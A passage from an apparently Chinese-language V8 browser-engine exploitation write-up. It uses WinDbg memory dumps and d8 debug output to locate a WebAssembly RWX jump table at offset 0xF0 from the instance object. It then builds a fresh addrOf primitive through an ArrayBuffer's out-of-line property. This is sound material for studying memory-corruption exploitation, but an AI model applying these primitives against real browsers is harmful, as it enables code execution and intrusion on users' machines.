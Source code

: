 ```C
00000015`42aa6310  000003a6`934104e9 00000015`42a839f9
00000015`42aa6320  00000015`42aa63f1 000003d8`18a825a1
00000015`42aa6330  000003d8`18a825a1 000003d8`18a825a1
00000015`42aa6340  000003d8`18a825a1 000003d8`18a82cf1
00000015`42aa6350  000003d8`18a82cf1 000003d8`18a825a1
00000015`42aa6360  000003a6`93410479 000003d8`18a825a1
00000015`42aa6370  000003d8`18a825a1 000003d8`18a822a1
00000015`42aa6380  000001c8`1281dba1 000001ec`e84f0000
00000015`42aa6390  00000000`00010000 00000000`0000ffff
00000015`42aa63a0  000001ec`6848c6f8 000001ec`684947c8
00000015`42aa63b0  000001ec`684947b8 000001ec`6591e700
00000015`42aa63c0  00000000`00000000 000001ec`67c16320
00000015`42aa63d0  00000000`00000000 00000000`00000000
00000015`42aa63e0  0000002e`25980000 000003d8`00000000
00000015`42aa63f0  00000081`9a10b851 000003d8`18a82cf1
```
在0000001542aa63e0确实存在0x2e25980000，接下来我们就可以计算RWX页面相对于WasmInstanceObject的偏移
`3e0-2f0=F0(240)`
故跳转表的偏移量是 240 个字节，即 0xF0 ，距实例对象的基地址。
有一个问题：我们不能再使用 addrOf 原语来泄漏对象地址。其原因是 addrOf 原语通过覆盖重叠属性来滥用我们的错误。这本质上会破坏我们通过数组缓冲区设置的内存读/写原语，导致写入错误的内存区域并可能导致崩溃。
在这种情况下我们需要利用数组缓冲区构建另一个addrOf原语
1. 向第二个数组缓冲区添加一个外联属性。
2. 泄漏第二个数组缓冲区属性存储的地址。
3. 使用 read64 内存原语读取属性存储中偏移量 16 处的对象地址。

首先在d8创建一个对象，赋予一个leakme的外联属性,这个leakme的值就是我们想要读取的地址
```
d8> let arrBuf1 = new ArrayBuffer(1024);
d8> let obj = {x:1}
d8> arrBuf1.leakme = obj;
```

```
d8> %DebugPrint(arrBuf1)
DebugPrint: 000003A6934109F9: [JSArrayBuffer]
 - map: 0x00819a10c521 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x001542a90b21 <Object map = 000000819A1043C1>
 - elements: 0x03d818a82cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 000001EC67C4A130
 - byte_length: 1024
 - neuterable
 - properties: 0x03a693410ba1 <PropertyArray[3]> {
    #leakme: 0x03a693410aa1 <Object map = 000000819A10C4D1> (data field 0) properties[0]
 }
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
```

利用Windbg调试对象
```
0:009> dq 000003A6934109F9-1 L10
000003a6`934109f8  00000081`9a10c521 000003a6`93410ba1
000003a6`93410a08  000003d8`18a82cf1 00000000`00000400
000003a6`93410a18  000001ec`67c4a130 00000000`00000002
000003a6`93410a28  00000000`00000000 00000000`00000000
000003a6`93410a38  000003d8`18a829c1 0000000f`44e01af2
000003a6`93410a48  206a626f`2074656c de7d313a`787b203d
000003a6`93410a58  000003d8`18a823a1 00000001`00000000
000003a6`93410a68  00000015`42aa70a3 000003d8`18a828d1
0:009> dq 0x03a693410ba1-1 L6
000003a6`93410ba0  000003d8`18a83899 00000003`00000000
```